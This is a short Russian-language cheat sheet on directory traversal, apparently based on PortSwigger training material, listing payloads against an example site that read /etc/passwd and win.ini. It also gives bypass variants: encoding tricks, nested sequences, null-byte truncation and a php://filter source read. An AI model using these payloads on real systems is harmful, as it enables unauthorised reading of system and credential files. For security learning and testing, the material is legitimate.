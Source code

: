 [Directory traversal](https://portswigger.net/web-security/file-path-traversal)

# Чтение произвольных файлов через обход каталога

Unix-based:

```
https://insecure-website.com/loadImage?filename=../../../etc/passwd
```

Windows:

```
https://insecure-website.com/loadImage?filename=..\..\..\windows\win.ini
```

# Общие препятствия для использования уязвимостей обхода путей к файлам

Использование абсолютной пути:

```
https://insecure-website.com/loadImage?filename=/etc/passwd
```

Использование вложенных последовательностей, например,`....//` или `....\/`:

```
https://insecure-website.com/loadImage?filename=....//....//....//etc/passwd
```

Обход путем кодирования URL:

```
../ == %2e%2e%2f
```

или двойного кодирования URL:

```
../ == %252e%252e%252f
```

Различные нестандартные кодировки, такие как `..%c0%af` или `..%ef%bc%8f`, также могут сработать.

Если приложение требует, чтобы имя файла, начиналось с ожидаемой базовой папки, например, `/var/www/images`, то можно включить требуемую базовую папку, за которой следуют подходящие последовательности:

```
https://insecure-website.com/loadImage?filename=/var/www/images/../../../etc/passwd
```

Если приложение требует, чтобы имя файла, предоставляемое пользователем, заканчивалось ожидаемым расширением файла, например `.png`, то можно использовать нулевой байт (`%00`), чтобы обрезать путь к файлу перед требуемым расширением:

```
https://insecure-website.com/loadImage?filename=../../../etc/passwd%00.png
image.php?img=php://filter/convert.base64-encode/resource=index.php
```

